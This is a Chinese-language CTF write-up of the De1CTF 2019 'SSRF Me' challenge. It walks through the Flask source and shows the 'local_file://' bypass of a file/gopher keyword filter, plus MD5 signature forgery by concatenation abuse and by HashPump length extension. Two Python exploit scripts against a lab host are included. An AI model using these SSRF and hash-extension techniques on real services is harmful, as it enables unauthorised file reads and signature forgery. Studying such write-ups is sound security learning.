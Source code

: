 # [De1CTF 2019]

## 0x01 SSRF Me

靶机首页就是源码

Hint:提示flag is in ./flag.txt

所以我们得想办法读取这个文件,首先看有哪几个路由，分别有什么用

```python
#generate Sign For Action Scan. 为scan创建一个标志?
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)

#核心功能 传参执行Task.Exec()并输出
@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

#首页展示源码...
@app.route('/')
def index():
    return open("code.txt","r").read()
```

看一下调用的类

```python
class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr 利用md5对ip进行了限制“只能”访问外网
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:#如果是action是scan,就往路径下的/result.txt写东西
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:#如果是action是read,就往路径下的/result.txt读
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):#检查签名
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False
```

可以看到有一些校验和waf拦截

还是先继续看核心功能代码

```python
def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"
```

显然我们要在这个param里面注类似”file:flag.txt“来拿到flag

但是被waf给拦了

```python
def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False
```

gopher也不能用

但是这里只过滤了file没有过滤local_file，或者也可以直接flag.txt

参考：https://bugs.python.org/issue35907

>  这里是使用的 urllib.urlopen(param) 去包含的文件，所以可以直接加上文件路径 `flag.txt` 或 `./flag.txt` 去访问，也可以使用类似的 `file:///app/flag.txt` 去访问，但是 `file` 关键字在黑名单里，可以使用 `local_file` 代替
>
>  https://xz.aliyun.com/t/5927#toc-3

所以我们可以用``local_file:///proc/self/cwd/flag.txt``来访问

然后在action里``scan+read``就可以读文件了

执行还需要签名满足

``getSign(self.action, self.param) == self.sign``

```python
def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()
```

因为secret_key是未知的，我们必须先调用geneSign去拿到签名，但该函数限定了action为``scan``怎么办？

注意到这个是字符串直接拼一起的，

所以我们一开始调用

```
local_file:///proc/self/cwd/flag.txtread
```

就可以拿到对应的签名了

先写一个Exp框架

```python
#coding=utf-8
import requests

conn = requests.session()

url = "http://f3d586ad-6270-49ac-843c-3ca9b419ab4b.node3.buuoj.cn"

def geneSign(param):
    param = {
        "param": param,
    }
    resp = conn.get(url+"./geneSign",param=param).text
    print resp
    return resp
def challenge(action,param,sign):
    param = {
        "param":param,
    }
    cookie = {
        "action": action,
        "sign": sign,
    }
    resp = conn.get(url+"/De1ta",param=param,cookie=cookie)
    print resp
    return resp
```

第二个绕开sign限制的方法还是挺有意思的,利用哈希扩展攻击

利用条件：

1. 我们要知道salt（只能是前缀）的长度。
2. 要知道任意一个由salt加密后的md5值，并且知道没有加盐的明文。
3. 用户可以提交md5值。

这里的salt就是secret_key+filename

工具Hashpump

```bash
root@EDI:~/HashPump#  hashpump
Input Signature: f173c63af1a6be383330bb97d7714446
Input Data: scan
Input Key Length: 24
Input Data to Add: read
3ff498706cc3cfef41b86e94343ebe97
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
```

注意要将\x80等字符转换为URL编码，否则会报400错误

Exp2:

```
#coding=utf-8
import requests
conn = requests.Session()

url = "http://f3d586ad-6270-49ac-843c-3ca9b419ab4b.node3.buuoj.cn"
def geneSign(param):
    data = {
        "param": param
    }
    resp = conn.get(url+"/geneSign",params=data).text
    print resp
    return resp

def challenge(action,param,sign):
    cookie={
        "action":action,
        "sign":sign
    }
    params={
        "param":param
    }
    resp = conn.get(url+"/De1ta",params=params,cookies=cookie).text
    return resp

filename = "flag.txt" #长度为8 +16位的key 24位
payload = "scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read"
sign = "3ff498706cc3cfef41b86e94343ebe97"
print challenge(payload,filename,sign)
```

### 参考资料

[https://www.cnblogs.com/20175211lyz/p/11440316.html](https://www.cnblogs.com/20175211lyz/p/11440316.html)